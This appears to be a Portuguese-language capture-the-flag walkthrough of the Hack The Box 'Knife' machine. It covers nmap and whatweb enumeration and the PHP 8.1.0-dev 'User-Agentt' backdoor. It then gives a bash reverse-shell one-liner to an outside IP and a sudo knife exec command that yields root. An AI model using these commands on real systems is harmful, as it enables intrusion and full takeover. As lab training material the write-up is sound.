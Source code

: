 ```yaml
---
category: Walkthrough
date: 2021-08-28 12:00:00
header:
  og_image: https://i.imgur.com/U5A7c9y.png
  teaser: https://i.imgur.com/U5A7c9y.png
language: pt-BR
namespace: htb-knife
redirect_from: /writeup/2021/08/htb-knife
tags:
- HackTheBox
- HTB Easy
- HTB Linux
title: 'Walktrough: HTB Knife'
---
```


Olá!

A máquina desta semana será **Knife**, outra máquina Linux classificada como fácil do [Hack The Box](https://www.hackthebox.eu/), criada por [MrKN16H](https://app.hackthebox.eu/users/98767).<!--more-->

:information_source: **Info**: Write-ups para máquinas do Hack The Box são postados assim que as máquinas são aposentadas.
{: .notice--info}

![HTB Knife](https://i.imgur.com/3IO9vBj.png){: .align-center}

Esta máquina foi bem simples, onde você deve prestar atenção aos detalhes (no caso do webserver vulnerável) e sempre ir pelo caminho mais simples como abusar das permissões de `sudo` que o usuário já possui.

Espero que gostem!

## Enumeração

Como de costume, iniciei com um scan rápido do `nmap` para verificar os serviços publicados nesta máquina:

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.242
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 17:50 -03
Nmap scan report for 10.10.10.242
Host is up (0.072s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.42 seconds
```

### 80/TCP - Serviço HTTP

Acessando o website podemos ver uma simples página institucional de uma companhia do setor de saúde, conforme abaixo:

![HTB Knife - HTTP Service](https://i.imgur.com/oAbssxJ.png){: .align-center}

Após acessar a página, obtido algumas informações adicionais, os componentes utilizados e qual o webserver em execução com ajuda do `whatweb` e o que chamou a atenção foi o cabeçalho `X-Powered-By` que aponta para uma versão de desenvolvimento do **PHP 8.1.0**.

```bash
$ whatweb --color=never -a 3 10.10.10.242 | tee whatweb.txt
http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], , Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

## Acesso inicial e User flag

Como versões de desenvolvimento frequentemente contém vulnerabilidades, decidi buscar a respeito da mesma com `searchsploit` e encontrei uma vulnerabilidade de execução remota de código (RCE - *Remote Code Execution*) conforme listado abaixo:

```bash
$ searchsploit "8.1.0-dev"
---------------------------------------------------------------------- ----------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ----------------------------
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                   | php/webapps/49933.py
---------------------------------------------------------------------- ----------------------------
Shellcodes: No Results
```

Esta vulnerabilidade consiste em um backdoor adicionado em alguns commits por contas comprometidas no código fonte do PHP onde, sempre que um request contém o cabeçalho `User-Agentt: "zerodiumsystem('cmd');"` é enviado, seu conteúdo é interpretado e executado, neste caso o conteúdo `cmd`. O exploit disponível simula um shell de modo não interativo e, a partir dele, iniciei um shell reverso interativo com o payload `bash -c 'bash -i >& /dev/tcp/10.10.10.10/4443 0>&1'` que nos retornou uma sessão a partir da conta do usuário **james**, onde encontramos o arquivo `user.txt` e foi possível ler seu conteúdo, obtendo a primeira flag.

```bash
james@knife:~$ id && hostname
uid=1000(james) gid=1000(james) groups=1000(james)
knife
james@knife:~$ cat user.txt
<redacted>
```

## Root flag

Como de costume, iniciei com o comando `sudo -l` e tive sorte mais uma vez, vendo o seguinte output:

```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
   (root) NOPASSWD: /usr/bin/knife              
```

Realizando uma busca rápida a respeito do binário, encontrei que se trata de parte da solução de gestão de configuração [Chef](https://www.chef.io/) e, de acordo com a página [knife \| GTFOBins](https://gtfobins.github.io/gtfobins/knife/#sudo), poderia ser utilizada facilmente para escalar privilégio como root, conforme abaixo, nos permitindo obter a última flag :smiley:

```bash
james@knife:~$ sudo /usr/bin/knife --help                                                                                 Chef Infra Client: 16.10.8

Docs: https://docs.chef.io/workstation/knife/
Patents: https://www.chef.io/patents

[...]

james@knife:~$ sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
# cat root.txt
<redacted>
```

Espero que tenham gostado!

Vejo vocês no próximo post :smile:
